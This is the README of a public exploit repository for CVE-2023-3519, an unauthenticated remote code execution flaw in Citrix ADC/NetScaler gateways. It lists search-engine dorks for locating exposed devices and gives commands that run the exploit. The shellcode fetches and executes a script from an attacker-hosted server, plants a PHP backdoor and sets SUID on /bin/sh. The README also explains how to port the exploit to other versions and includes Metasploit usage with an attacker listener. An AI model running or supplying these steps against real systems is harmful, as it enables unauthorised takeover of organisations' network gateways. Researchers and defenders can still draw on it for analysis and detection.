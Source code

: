 # CVE-2023-3519

![](https://img.shields.io/static/v1?label=Product&message=Citrix%20ADC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Citrix%20VPX%2013.1-48.47&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)



This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).
 - Shodan dork:
```
title:"NetScaler AAA","Citrix Gateway","NetScaler Gateway"
```
- [Hunter](https://hunter.how/) dork:
```
product.name="NetScaler AAA"
```
```
product.name="Citrix Access Gateway"
```

### Scanner
```
# Check a single URL
python3 scanner.py --url https://example.com

# Check multiple URLs from a file
python scanner.py --file urls.txt

# Check multiple URLs from a file and check for IOCs
python scanner.py --file urls.txt --ioc-check
```
You can also use the [template for nuclei.](https://github.com/SalehLardhi/CVE-2023-3519)

### Usage exploit
NASM is required to build the shellcode. 
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo. 

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 exploit.py target.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long. 

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion. 

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `exploit.py`.

### Metasploit Framework

```
cp citrix_formssso_target_rce.rb /usr/share/metasploit-framework/modules/exploits/freebsd/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/freebsd/http/citrix_formssso_target_rce
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
